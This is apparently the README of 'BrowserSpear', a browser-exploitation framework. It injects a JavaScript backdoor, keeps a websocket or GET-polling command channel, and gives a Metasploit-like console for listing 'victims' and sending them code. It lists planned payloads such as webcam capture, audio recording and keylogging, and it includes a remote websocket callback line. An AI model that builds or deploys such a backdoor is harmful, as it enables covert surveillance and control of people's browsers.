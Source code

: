 # BrowserSpear
A framework for exploiting browsers by injecting Javascript to a web-based backdoor

# Aim of the project
- After a backdoor is injected in the browser (backdoor.html) the backdoor will try a websocket first and otherwise poll with GET requests. If a GET request succeeds but no websocket is possible (browser incompatible, proxy, filter, ... ) it will communicate in both ways with respectivly GET and reponse-headers.
- When a connection is available to a host it can be send Javascript-code to be executed on the machine
- Clients will be identified from the server with a couple commands and a database will be kept in a plain file
- The interface will be combined with the server (nodejs for async events). If the server is already running, make a connection to the existing server through HTTP requests or a websocket to have the same level of access
- Commands will only be accepted if comming from localhost
- The interface is a metasploit-like commnand-based system to list victims and send commands (custom or prepared payloads)
- Examples of payloads: webcam stream, audio record, keylogger, persistance, ... (check BeEF for inspiration)
- SSL protected connection with loadable cert (Future)

# Usage
To start the command server, use the following command:
<pre>node backend_server.js</pre>

Inject the backdoor or serve backdoor.html and open it in a browser to test:
<pre>python3 -m http.server</pre>

Commands can be send by typing them in the backend_server.js-interface or doing a HTTP-call:
<pre>curl 'http://localhost:1337/exec?alert("muahahahaha")'</pre>

# TODO & Roadmap
- backdoor must be built to only provide the URL to connect to if it was not already set. so that the url can be changed by adding an extra script-segment with "var socket = new WebSocket('ws://wereiwanttogo.com:1337')"
- interface should take commands to be sent to victims.
- a new connection should be fingerprinted and logged to a local file
- interface with more layers to list and send commands specific to victim

# Credits
- Samy Kamkar for the inspiration through the Poisontab project and the code that provides the low-level base of the project.
